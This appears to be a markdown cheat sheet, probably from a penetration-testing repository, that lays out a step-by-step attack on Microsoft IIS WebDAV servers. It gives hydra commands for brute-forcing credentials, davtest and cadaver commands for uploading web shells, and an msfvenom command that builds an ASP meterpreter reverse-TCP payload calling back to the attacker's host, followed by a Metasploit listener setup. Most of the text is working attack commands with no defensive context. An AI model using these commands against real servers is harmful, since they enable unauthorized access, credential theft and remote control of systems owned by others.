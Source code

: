 # Exploiting Microsoft IIS Webdav

Legitimate credentials are needed for interacting with WebDav

Step 1: Identify if it has been configurated on the server. This can be completed with Nmap  
Step 2: Brute Force attack on the server to identify credentials we can use  
Step 3: Authenticate and upload malicious .asp payload  

## **Tools**  
Davtest - Scan, authenticate, and exploit WEbdav server 
Cadaver - supports download, upload, onscreen display, in place editing, etc

**Brute Force username and password**  
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt (IP address or domain) http-get /webdav/

## Davtest  
Checking what file types we can upload  
**Unauthenticated** - ```davtest -url http://(IP address)/webdav```  
**Authenticated** - ```davtest -url -auth bob:password123321 http://(IP address)/webdav```  

## Cadaver  
This will access the contents of the directory (download/upload)  
```cadaver http://(IPaddress)/webdav```  
Enter credentials  

**Uploading Webshell**  
Web shells located -- /usr/share/webshells  
```put /usr/share/webshells/(file type)/webshell.(filetype)```  

# Metasploit  
Generating an asp payload  
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Local IP address) LPORT=1234 -f asp > shell.asp```  
Upload shell using cadaver (previous 2 steps)  
### Setup a listener  
Start postgresql services - ```services postgresql start && msfconsole```  
Use multi/handler  - ```set payload/windows/meterpreter/reverse_tcp```
